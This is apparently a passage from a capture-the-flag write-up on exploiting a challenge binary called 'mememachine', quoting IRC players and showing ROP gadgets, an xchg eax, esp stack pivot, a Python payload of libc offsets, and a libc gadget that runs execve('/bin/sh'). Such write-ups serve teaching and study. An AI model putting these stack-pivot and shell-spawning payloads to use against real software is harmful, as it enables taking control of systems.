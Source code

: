 ```asm
mov rdi, rax
call [rax+20]
ret
```

Rather than overwriting offset 0x8 in the meme with system(), you can overwrite 0x20, and use this ROP gadget as a trampoline to jump there with a controllable rax. Nice.

    <crowell> the ruby binary doesn't have any good gadgets in it

### basatan's approach: ROP to swap eax and the stack pointer

    <basatan> numinit: you're missing my solution, which was use xchg eax, esp; ret; from libc
              to put esp onto your skeletal object, then return to a libc address which setup
              the args to execve /bin/sh and called it

Another handy ROP gadget, since we control the memory eax points to:

```asm
xchg eax, esp
ret
```

The payload then looks like:

```python
payload = ""
payload += pack("Q",libcBase+0x4652C);
payload += pack("Q",libcBase+0x1f4c3);
payload += pack("Q",0x4141414141414141);
payload += pack("Q",0);
payload += pack("Q",0);
payload += pack("Q",0);
payload += pack("Q",0);
payload += pack("Q",0);
payload += pack("Q",0);
payload += pack("Q",0);
payload += pack("Q",0);
payload += pack("Q",0);
payload += pack("Q",0);
```

Get mememachine to call `libcBase+0x1f4c3`, which swaps eax and esp. Now, eax points to memory containing `libcBase+0x4652C`, which points to the following gadget in libc that calls execve("/bin/sh"):

```asm
 mov     rax, cs:environ_ptr_0
 lea     rdi, aBinSh     ; "/bin/sh"
 lea     rsi, [rsp+188h+var_158]
 mov     cs:dword_3C06C0, 0
 mov     cs:dword_3C06D0, 0
 mov     rdx, [rax]
 call    execve
```
